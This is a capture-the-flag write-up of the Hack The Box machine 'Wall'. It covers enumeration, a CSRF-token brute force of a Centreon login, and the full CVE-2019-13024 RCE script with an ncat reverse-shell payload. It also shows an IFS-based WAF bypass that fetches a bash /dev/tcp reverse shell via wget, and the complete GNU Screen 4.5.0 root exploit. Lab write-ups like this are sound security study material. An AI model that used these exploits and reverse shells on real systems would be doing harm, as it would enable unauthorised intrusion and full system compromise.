



# Wall


## Information Gathering

### Nmap
As usual, I start off with my typical nmap scan: 

```console
root@endeavour:~/htb/wall# nmap -sV -sC -vv 10.10.10.157 -oA 10-10-10-157
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-02 15:19 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:19
Completed NSE at 15:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:19
Completed NSE at 15:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:19
Completed NSE at 15:19, 0.00s elapsed
Initiating Ping Scan at 15:19
Scanning 10.10.10.157 [4 ports]
Completed Ping Scan at 15:19, 0.17s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:19
Completed Parallel DNS resolution of 1 host. at 15:19, 0.16s elapsed
Initiating SYN Stealth Scan at 15:19
Scanning 10.10.10.157 [1000 ports]
Discovered open port 22/tcp on 10.10.10.157
Discovered open port 80/tcp on 10.10.10.157
Completed SYN Stealth Scan at 15:19, 6.38s elapsed (1000 total ports)
Initiating Service scan at 15:19
Scanning 2 services on 10.10.10.157
Completed Service scan at 15:20, 6.30s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.157.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:20
Completed NSE at 15:20, 5.35s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:20
Completed NSE at 15:20, 0.86s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:20
Completed NSE at 15:20, 0.00s elapsed
Nmap scan report for 10.10.10.157
Host is up, received echo-reply ttl 63 (0.25s latency).
Scanned at 2019-10-02 15:19:49 EDT for 19s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAWTqpexXdcWJOW7L3jQ6WzlOSWe903X2ZwciybZmsBFIRSa8A6nUztI2vzFr8B+tFcVrH23TrgAML8y/3fKP5pSKsbDXbwo0+myq4roF37fx5/bxDlYIrFV1Ni73FdzxOHWxJy2heVgGcv/OmKktNMjHomq0NlX2i++aAF7AR2j+vP5M4JY92t3ucmKh+QTZnvOdLNjBlFNFoJ10VvAtX9j8PJa4MruowGjLuqHYDl1KkMweJB5Us7wzdG8gIg8/1AY+r4TeIu1QgkOCmCmav8cp3AiWE2WwILnSfiezyVdlZLpmPIrSwdfLIf+M9fZb6h58PYHUngD3regbWR5Z3
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIZz9miawtkv9Tu8stf0CPwQJ4NvlbFe5iIWvwbfw/KMbrJqM3H/QUREu8pYMhFwP2YRWpkrSUXM5KEgR4YujgE=
|   256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOzrOlDBkdWSJ+DrMvZ4P0UEbBDUYaCWFqnS4o0LETtS
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:20
Completed NSE at 15:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:20
Completed NSE at 15:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:20
Completed NSE at 15:20, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.80 seconds
           Raw packets sent: 1305 (57.396KB) | Rcvd: 1055 (42.196KB)
```
Ports **22** and **80**. I want to focus on **80** first - over to http://10.10.10.157/ and I get the default apache page:


**Figure 1:** Apache

### Nikto

```console
root@endeavour:~/htb/wall# nikto -host 10.10.10.157
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.157
+ Target Hostname:    10.10.10.157
+ Target Port:        80
+ Start Time:         2019-10-02 15:22:10 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 58cb1080cb0d2, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST 
+ 7871 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-10-02 15:43:01 (GMT-4) (1251 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Not too much interesting in Nikto, and nothing immediately strikes me as interesting with apache either. We'll hang onto these results just in case, but I feel like we don't know enough about our target yet.

### Dirb

Dirb does come back with some actual results using the common wordlist:

```console
root@endeavour:~/htb/wall# dirb http://10.10.10.157 /usr/share/dirb/wordlists/common.txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct  2 15:26:47 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)                                                  
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)                                                    
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)                                                 
                                                                                                        
-----------------
END_TIME: Wed Oct  2 15:40:36 2019
DOWNLOADED: 4612 - FOUND: 3
```
A few interesting things: `/monitoring` and `/server-status` both require authentication. I think this is probably the correct direction. We should explore further. Lets try dirb with a larger wordlist: `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

I also tried DirBuster and got a few different results:


**Figure 2:** Dirbuster

## User (and root) Flag

At this point I had lost connection with the box, so I bounced it and re-connected. I re-ran all the above scans and ended up coming out with our first actionable item: http://10.10.10.157/centreon/.

Its a web app with a login page. According to google the default credentials to this app are either `root` or `admin` and password `centreon`. Neither combination worked - that'd be too easy anyway. Search for a Centreon exploit next:

```console
root@endeavour:~/htb/wall# searchsploit centreon
---------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                  |  Path
                                                                | (/usr/share/exploitdb/)
---------------------------------------------------------------- ----------------------------------------
Centreon - SQL Injection / Command Injection (Metasploit)       | exploits/unix/remote/35078.rb
Centreon 1.4.2.3 - 'get_image.php' Remote File Disclosure       | exploits/php/webapps/5204.py
Centreon 1.4.2.3 - 'index.php' Local File Inclusion             | exploits/php/webapps/31318.txt
Centreon 19.04  - Remote Code Execution                         | exploits/php/webapps/47069.py
Centreon 2.3.1 - 'command_name' Remote Command Execution        | exploits/php/webapps/36293.txt
Centreon 2.5.3 - Remote Command Execution                       | exploits/php/webapps/39501.txt
Centreon 2.5.3 - Web Useralias Command Execution (Metasploit)   | exploits/python/remote/40170.rb
Centreon 2.5.4 - Multiple Vulnerabilities                       | exploits/php/webapps/37528.txt
Centreon 2.6.1 - Multiple Vulnerabilities                       | exploits/php/webapps/38339.txt
Centreon < 2.5.1 / Centreon Enterprise Server < 2.2 - SQL Injec | exploits/linux/webapps/41676.rb
Centreon Enterprise Server 2.3.3 < 2.3.9-4 - Blind SQL Injectio | exploits/php/webapps/23362.py
Centreon IT & Network Monitoring 2.1.5 - SQL Injection          | exploits/php/webapps/11979.pl
Oreon 1.4 / Centreon 1.4.1 - Multiple Remote File Inclusion Vul | exploits/php/webapps/4735.txt
---------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
there is a 19.04 RCE, but in reading it: Exploit Title: Centreon v19.04 **authenticated** Remote Code Execution. We need to get creds somewhere for this to work. Enumerate further and we'll find:

```http://10.10.10.157/centreon/api/```  
```http://10.10.10.157/centreon/static/js/```  
```http://10.10.10.157/centreon/admin.php```  

Looking through the source in the API there is a CSRF token we need to get around if we are going to brute force this login. Google leads us to: [anti-CRSF_Token-Bruteforce](https://github.com/J3wker/anti-CSRF_Token-Bruteforce). It's usage is the following:

```console
python3 brutecsrf.py --url http://test.com/index.php --csrf name_csrf_token_in_HTML_form --u admin --fuser user_name_in_HTML_form --passwd password_name_in_HTML_form
```

So to build our command we need the the CSRF token name from the html source, a username, the username field in the html source and the password name in the html form. Taking a look at the request in burp, **Centreon_token** is the name of our csrf token, fuser is **useralias**, the password is **passwd**. We'll use `admin` as the username we want to brute force.

```console
root@endeavour:~/htb/wall/anti-CSRF_Token-Bruteforce# ./brutecsrf.py --url http://10.10.10.157/centreon/index.php --csrf centreon_token --u admin --fuser useralias --passwd password

  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗  
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝                                                                               
   
Bruteforce CSRF
---------------------

Author: J3wker
HTB Profile: https://www.hackthebox.eu/profile/165824
GitHub: https://github.com/J3wker


Trying : password1
[+] Password found: password1
```
There we go, usernmae **admin** password **password1**. This kinda feels kinda bad because we should have been able to guess this, but oh well. Learned a way to brutefoce with a CSRF token I gues.

So now that we have credentials, we can pivot back to that authenticated RCE [CVE-2019-13024](https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py):

```python
#!/usr/bin/python

'''
# Exploit Title: Centreon v19.04 authenticated Remote Code Execution
# Date: 28/06/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2019-13024
# Vendor Homepage: https://www.centreon.com/
# Software link: https://download.centreon.com
# Version: v19.04
# Tested on: CentOS 7.6 / PHP 5.4.16
'''

import requests
import sys
import warnings
from bs4 import BeautifulSoup

# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 6:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password ip port")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]


request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")

login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")

    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
    poller_soup = BeautifulSoup(poller_html)
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))

    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,


    }

    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")
    print("[+] Check your netcat listener !")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    request.post(generate_xml_page, xml_page_data)

else:
    print("[-] Wrong credentials")
    exit()
```
So let's build our command again. In looking above we need a url, username, password, ip address, and port:

```python 47069.py http://10.10.10.157/centreon admin password1 10.10.14.75 42069```

Start our listener:
```console
root@endeavour:~/htb/wall# nc -lvnp 42069
listening on [any] 42069 ..
```
and trigger the exploit:

```console
root@endeavour:~/htb/wall# python 47069.py http://10.10.10.157/centreon admin password1 10.10.14.75 42069
[+] Retrieving CSRF token to submit the login form
47069.py:38: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a different virtual environment, it may use a different parser and behave differently.

The code that caused this warning is on line 38 of the file 47069.py. To get rid of this warning, pass the additional argument 'features="lxml"' to the BeautifulSoup constructor.

  soup = BeautifulSoup(html_content)
[+] Login token is : e2c736a882f3341b27bf395377de8d66
[+] Logged In Sucssfully
[+] Retrieving Poller token
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a different virtual environment, it may use a different parser and behave differently.

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the additional argument 'features="lxml"' to the BeautifulSoup constructor.

  poller_soup = BeautifulSoup(poller_html)
[+] Poller token is : eb2a898f0da1c20874704d42913cafc7
[+] Injecting Done, triggering the payload
[+] Check your netcat listener !
```

Nothing showed up on our listener. Let's debug a little using [strace](http://man7.org/linux/man-pages/man1/strace.1.html) and see what is happening, why is it failing?

```console
root@endeavour:~/htb/wall# cat strace.txt |grep "sendto\|recvfrom"
sendto(3, "GET /centreon/index.php HTTP/1.1"..., 161, 0, NULL, 0) = 161
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 1541
sendto(3, "POST /centreon/index.php HTTP/1."..., 380, 0, NULL, 0) = 380
recvfrom(3, "HTTP/1.1 302 Found\r\nDate: Thu, 0"..., 8192, 0, NULL, NULL) = 3593
sendto(3, "GET /centreon/main.php HTTP/1.1\r"..., 206, 0, NULL, 0) = 206
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 1238
sendto(3, "GET /centreon/main.get.php?p=609"..., 218, 0, NULL, 0) = 218
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 4035
recvfrom(3, "&\23\343\214\272\360p\216O$y\323K\36\372\360`\316`\2q%~\345.;\3653AT/\222"..., 1453, 0, NULL, NULL) = 1453
sendto(3, "POST /centreon/main.get.php?p=60"..., 1001, 0, NULL, 0) = 1001
recvfrom(3, "HTTP/1.1 403 Forbidden\r\nDate: Th"..., 8192, 0, NULL, NULL) = 524
sendto(3, "POST /centreon/include/configura"..., 359, 0, NULL, 0) = 359
recvfrom(3, "HTTP/1.1 200 OK\r\nDate: Thu, 03 O"..., 8192, 0, NULL, NULL) = 633
```

We appear to be getting **403**'d right after our `POST` to `/centreon/main.get.php?p=60`.

```console
root@endeavour:~/htb/wall# cat strace.txt |grep -C 5 "Forbidden"
stat("/root/_netrc", 0x7ffd8a6299c0)    = -1 ENOENT (No such file or directory)
poll([{fd=3, events=POLLIN}], 1, 0)     = 0 (Timeout)
sendto(3, "POST /centreon/main.get.php?p=60"..., 1001, 0, NULL, 0) = 1001
fcntl(3, F_GETFL)                       = 0x2 (flags O_RDWR)
fcntl(3, F_SETFL, O_RDWR)               = 0
recvfrom(3, "HTTP/1.1 403 Forbidden\r\nDate: Th"..., 8192, 0, NULL, NULL) = 524
write(1, "[+] Injecting Done, triggering t"..., 43) = 43
write(1, "[+] Check your netcat listener !"..., 33) = 33
stat("/root/.netrc", 0x7ffd8a6299c0)    = -1 ENOENT (No such file or directory)
stat("/root/_netrc", 0x7ffd8a6299c0)    = -1 ENOENT (No such file or directory)
poll([{fd=3, events=POLLIN}], 1, 0)     = 0 (Timeout)
```

So I spent an awful long time right here. In trying to figure out why the exploit wasn't working I realized that creator of the box is conveniently the author of the exploit I was trying to execute -- [@mohammadaskar2](https://twitter.com/mohammadaskar2?lang=en) -- I suppose he did not want it to be so easy to execute. In taking a look into the centreon config GUI (since we had the admin username and password and could log in) I located the field that we were getting 403'd on.


**Figure 3:** Centreon Config

Playing around with this, I realized that there were certain characters that would be accepted and certain characters that were triggering the 403. What does this sound like? It sounds like a WAF to me. In my day job I remember a certain vulnerability that also affected Equifax that we solved by using a technique similar to what I think is being employed here.

Space is one of the characters that was explcitly disallowed. How do we get around this? Well - the Internal Field Seperator is the tool for this job.

First let's create a reverse shell called `shell.sh`:

```console
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.75/42069 0>&1
```
and lets get that served up on our webserver:
```console
root@endeavour:~/htb/wall# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```
and then we drop the below command into the centreon GUI, give it execution rights, and then execute it:

```console
IFS=];b=wget]10.10.14.75:8080/htb/wall/shell.sh]-P]/tmp;$b
```
and we wind up with a shell back on our listener:

```console
root@endeavour:~/htb/wall# nc -lvnp 42069
listening on [any] 42069 ..
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.157] 
```
Sweet - so who are we? 

```uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)```

In poking around, we do not have enough rights to get to the user flag. But I am able to get [linenum](https://github.com/rebootuser/LinEnum) over:

```console
root@endeavour:~/htb/wall# nc -lvnp 42069 < linenum.sh
listening on [any] 42069 ..
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.157] 
```

Again to save space, I will cut out a lot of the output which I poured over for a more than a few hours to find something to priv esc:

```console
[-] SUID files:
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18448 Mar 10  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus 42992 Jun 10 21:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-r-sr-xr-x 1 root root 13628 Aug 28 14:41 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Aug 28 14:41 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

Our screen version has a local privesc: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

```console
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
So we just need to get this over to the box and run it, and hopefully we get root:

```console
www-data@Wall:/usr/local/centreon/www$ ./screen.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
# cat /root/root.txt
1fdbc******************d5db7
# cat usr/home/shelby/user.txt
cat: usr/home/shelby/user.txt: No such file or directory
# pwd
/etc
# cd ..
# ls
bin   home	      lib64	  opt	sbin	  sys  vmlinuz
boot  initrd.img      lost+found  proc	share	  tmp  vmlinuz.old
dev   initrd.img.old  media	  root	srv	  usr
etc   lib	      mnt	  run	swapfile  var
# cd home
# ls
shelby	sysmonitor
# cd shelby
# ls
html.zip  user.txt
# cat user.txt
fe619********************a8406
```
Excellent, we went backwards with the flags (maybe?) but glad this box is finally over.

# Conclusion
This box was pretty okay, I felt getting around the WAF step to be a little bit of an exercise in frustration but I really enojyed applying techniques that I have used or seen used professionally to a box. This was the first machine I've been able to do that on.

